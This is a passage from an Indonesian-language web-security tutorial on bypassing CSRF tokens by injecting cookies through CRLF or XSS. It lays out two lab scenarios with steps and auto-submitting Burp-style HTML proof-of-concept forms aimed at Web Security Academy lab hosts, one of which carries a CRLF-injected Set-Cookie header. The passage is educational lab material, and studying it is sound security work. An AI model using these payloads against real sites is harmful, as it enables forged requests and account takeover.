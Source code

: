 ```markdown
<script>
      document.forms[0].submit();
    </script>
</body>
</html>

```

### Metode Bypass 4 : Kombinasikan kerentanan lain untuk menambahkan cookie buatan sendiri, contohnya dengan menggunakan `XSS`, `CRLF` → `CSRF`

```markdown
Skenario 1 : Token CSRF terikat ke cookie non-sesi, ketika memiliki dua csrf, token satu di cookie dan lainnya dalam fungsionalitas, ini karena adanya dua kerangka kerja. satu untuk penanganan sesi dan satu untuk perlindungan CSRF, yang tidak terintegrasi satu sama lain.
                

1. Temukan kerentanan yang memungkinkan kita untuk menginjeksi cookie.
2. Lakukan pengujian jika CSRF token terikat dengan session id atau tidak (dengan mencoba mengubah session id)
3. Cek jika CSRF token yang dibuat berfungsi saat menggantikan token CSRF yang asli.
4. Cek apabila bisa melakukan injeksi CRLF dan ubah nilai CSRF cookie tersebut. 
5. Kemudian buat payload dan kirimkan payload tersebut.

Contoh payload:

<!DOCTYPE html>
<html>
  <!-- CSRF PoC - generated by Burp Suite Professional -->
<body>
	<form method="POST" action="https://ac981fc81ee9f58b80984ae400200076.web-security-academy.net:443/my-account/change-email">
		<input type="text" name="csrfKey" value="ntq9GTrV4JhtLaX07sqTnMpOHwMGpaX9">
		<input type="text" name="email" value="rad1zly@hack.com">
		<input type="text" name="csrf" value="6EU5SJ9YKzfOsq9rNgDR8toGy0TKSw81">
		<input type="submit" value="Send">
	</form>
<img src="http://ac981fc81ee9f58b80984ae400200076.web-security-academy.net/?search=test%0d%0aSet-Cookie:%20csrfKey=ntq9GTrV4JhtLaX07sqTnMpOHwMGpaX9" onerror="document.forms[0].submit()">
</body>
</html>


Skenario 2 : Token CSRF hanya diduplikasi dalam cookie, di sini nilai token csrf bisa apa saja hanya perlu sama di cookie dan juga parameternya.

1. Intercept request dan coba ubah CSRF token pada cookie dan parameternya.
2. Buat PoC yang mirip seperti diatas namun kali ini masukan token CSRF yang sama di payload CRLF dan Request parameternya.
3. Kemudian kirim html tersebut atau buka pada website dan klik submit.
4. Lihat apa yang terjadi pada akun tersebut.

Contoh payload:

<!DOCTYPE html>
<html>
  <!-- CSRF PoC - generated by Burp Suite Professional -->
<body>
	<form method="POST" action="https://ac071f601e8dc74380609c1d000900b3.web-security-academy.net:443/my-account/change-email">
		<input type="text" name="csrf" value="K5r92qL9pGzpC2joPMkqgBSY1GG3eo6I">
		<input type="text" name="session" value="xdCFpxBe1M0MHvk0DmFuzCRlImMgdxZk">
```